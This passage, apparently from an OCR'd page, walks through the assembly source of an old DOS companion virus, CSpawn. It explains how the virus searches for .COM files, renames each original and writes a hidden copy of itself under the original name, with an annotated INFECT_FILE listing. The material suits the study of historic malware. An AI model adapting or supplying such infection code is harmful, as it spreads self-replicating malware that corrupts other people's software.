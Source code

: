 -   **Initializing File Search**:
    
    -   `mov dx,OFFSET COM_MASK`: Sets up the `DX` register to point to the string `'*.COM'`, which is the search pattern for finding `.COM` files.
    -   `mov ah,4EH` and `xor cx,cx`: Prepares for a DOS function call to find the first file matching the `.COM` pattern. `AH=4EH` is the DOS function for "Find First File", and `CX` is cleared to 0 to search for files with any attribute (including hidden, system, etc.).
-   **Searching Loop**:
    
    -   `int 21H`: This interrupt call performs the actual file search.
    -   `jc FIND_DONE`: If the 'carry flag' is set (indicated by `jc`, jump if carry), no more files are found, and the routine exits.
    -   `call INFECT_FILE`: Calls the routine to infect the found file.
    -   `mov ah,4FH`: Prepares for the "Find Next File" DOS function.
    -   The `jmp FIND_LOOP` causes the program to loop back and search for the next `.COM` file.

### Infection Mechanism

#### Code Overview

```
INFECT_FILE:
    mov     si,9EH                    ; DTA + 1EH
    mov     di,OFFSET REAL_NAME       ; DI points to new name
INF_LOOP:
    lodsb
    stosb
    or       al,al
    jnz      INF_LOOP                 ; Is it a NULL?
    mov      WORD PTR [di-21],'N'
    mov     dx,9EH
    mov     di,OFFSET REAL_NAME
    mov     ah,56H
    int     21H                       ; rename original file
    jc       INF_EXIT                 ; if can’t rename, already done

    mov     ah,3CH
    mov     cx,2
    int     21H                       ; DOS create file function
                                      ; set hidden attribute

    mov     bx,ax                     ; BX holds file handle
    mov     ah,40H
    mov     cx,FINISH - CSpawn
    mov     dx,OFFSET CSpawn
    int     21H                       ; DOS write to file function

    mov     ah,3EH
    int     21H                       ; DOS close file function

INF_EXIT:
    ret
  ```
